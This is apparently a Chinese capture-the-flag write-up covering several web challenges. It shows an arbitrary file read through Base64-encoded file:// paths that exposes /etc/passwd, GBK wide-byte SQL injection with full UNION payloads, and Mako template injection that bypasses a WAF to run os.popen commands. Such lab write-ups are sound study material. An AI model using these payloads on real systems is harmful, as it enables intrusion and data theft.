华辰企业服务运营平台
没思路，就dirsearch扫了一下，

访问喽，/actuator/env

Northbridge Document Hub
任意文件读取
先查看源码看看有什么东西
1 | (function () { |
看到了一个注释行，一个Base64编码，应该是账号密码提示
1 | // researcher:Research#2026 |
所以猜测：
账号：researcher
密码：Research#2026

成功登陆
我知道为什么我当时一直访问不成功了，是因为我登录时的账号的cookies是不会一直跟随我的
所以以后遇到这种题目要写脚本，就差最后一步了，还是太菜了
1 | import base64 |
1 | PS D:\CODE> python -u "d:\CODE\test\test.py" |
成功回显 /etc/passwd 内容，说明这里存在任意文件读取。
漏洞原理
后续将部署包拉下来反编译，恢复出了核心逻辑。KkPathResolver 的处理流程大致如下：
- 对 urlPath 做 Base64 解码
- 将反斜杠替换为正斜杠
- 如果存在
?，截断查询字符串 - 如果以
file://开头，就去掉协议头 - 转成 Path 并
normalize() - 如果路径字符串里 不包含
/opt/kkfileview/cache/，就把它拼到缓存根/opt/kkfileview/cache/parsed下面 - 否则直接使用该路径
问题在于：
- 接口允许
file:// - 没有真正限制读取根目录
- 只通过字符串
contains("/opt/kkfileview/cache/")来判断是否属于缓存目录
因此只要传：
1 | Base64("file:///任意本地文件") |
就可以直接读取任意本地文件。
这就是本题的核心漏洞。
那就可以直接修改脚本了
1 | import base64 |
输出
1 | PS D:\CODE> python -u "d:\CODE\test\test.py" |
从 docker-entrypoint.sh 的内容可以看出，Flag 被动态写入了 /tmp/flag.txt，然后被打包进了 ZIP 文件，最后 /tmp/flag.txt 被删除了。
关键线索分析
- Flag 写入：
echo "$INSERT_FLAG" > /tmp/flag.txt - 打包路径：
jar -cf "${CACHE_DIR}/${ZIP_NAME}" flag.txtCACHE_DIR=/opt/kkfileview/cache/parsedZIP_NAME=q1_finance_report_2026.zip
- 最终文件位置：
/opt/kkfileview/cache/parsed/q1_finance_report_2026.zip - 清理操作：
rm -f /tmp/flag.txt（所以直接读/tmp/flag.txt肯定没了）
继续脚本
1 | import base64 |
最后在终端执行以下命令即可提取 Flag：
1 | python -c "import zipfile; z=zipfile.ZipFile('q1_finance_report_2026.zip'); print(z.read('flag.txt').decode())" |

lit_ezsql
GBK 宽字节绕过单引号
正常查询的话，表单会把参数提交到 /query
1 | GET /query?id=1 |

然后我们可以尝试加上debug=1
1 | GET /query?debug=1&id=1 |
页面会额外回显 SQL：

这说明输入点被放进了单引号里。
直接输入单引号测试：
1 | 1' |

说明服务端对单引号做了反斜杠转义，普通注入无法直接闭合。
利用 GBK 宽字节注入绕过
1 | GET /query?debug=1&id=-1%BF%27%20UNION%20SELECT%201,2,3,4,5%23 |

回显成功
原理：
- 服务端先把单引号转义成
\+' - 发送
%BF%27后，转义结果会变成%BF%5C%27 - 在 GBK 编码下，
%BF%5C会被解释成一个双字节字符 - 后面的
%27就重新变成了有效单引号，从而成功逃逸字符串
查库名：
1 | GET /query?id=-1%BF%27%20UNION%20SELECT%201,database(),3,4,5%23 |
查到ezsql

查表名：
1 | GET /query?id=-1%BF%27%20UNION%20SELECT%201,group_concat(table_name),3,4,5%20FROM%20information_schema.tables%20WHERE%20table_schema=database()%23 |
查到flag_store

查列名：
因为过滤了flag字符串，所以使用十六进制绕过
1 | GET /query?id=-1%BF%27%20UNION%20SELECT%201,group_concat(column_name),3,4,5%20FROM%20information_schema.columns%20WHERE%20table_name=0x666c61675f73746f7265%23 |
查到flag

查字段：
1 | GET /query?id=-1%BF%27%20UNION%20SELECT%201,flag,3,4,5%20FROM%20flag_store%23 |

lit_ezssti
Mako 模板注入
首页是一个表单，POST / ，提交参数 tpl，服务端会把渲染结果回显到页面里
测模板指纹
- Mako：使用
<% ... %>作为脚本块标记（如<% import os %>） - Jinja2：使用
{% ... %}作为逻辑控制标记（如{% if x %}） - Freemarker：使用
<#...>作为指令标记或${...}作为插值标记 - Thymeleaf：使用
th:*作为属性标记或[[...]]作为内联表达式标记
1 | tpl={{7*7}} |
回显原样返回，不执行
1 | tpl={% for x in [1] %}OK{% endfor %} |
返回WAF
继续测：
1 | tpl=<% |
返回：
1 | [渲染异常] SyntaxException: Expected: %> at line: 1 char: 1 |
这说明模板引擎不是 Jinja2，而是 Mako
测试 payload：
1 | tpl=<% __M_writer(str(49)) %> |
成功回显：49
说明已经是Mako 模板代码执行
分析 WAF
当时手动测了一会，想想挺傻的，可以用 bp 做模糊测试
黑名单比较粗暴，实测会拦的内容包括：
=.[]${- 某些关键字直接命中时也会拦，比如
flag
但它只是做字符串匹配，所以可以用字符串拼接绕过。
例如：
1 | tpl=<% __M_writer('/fla'+'g') %> |
不会被拦，且最终运行时仍然得到/flag</font>
读取 flag
先验证命令执行：
1 | tpl=<% __M_writer(next(iter(getattr(__import__('os'),'popen')('id')))) %> |
回显：
1 | uid=0(root) gid=0(root) groups=0(root) |
说明命令执行成功
那就可以读flag了
payload：
1 | tpl=<% __M_writer(next(getattr(getattr(__import__('builtins'),'open')('/fla'+'g'),'__iter__')())) %> |
拿到 flag
lit_reverse_my_web
JWT
访问首页后可以看到这是一个登录系统，公开功能主要有：/register和/login
注册普通用户并登录后，首页会出现一个进入归档中心的入口，对应路径为：/flag
但普通用户访问 /flag 会返回：
1 | 403 Forbidden |
这说明：
- flag 在服务端。
/flag需要更高权限。
平台把赛题关了，以后再来复现一下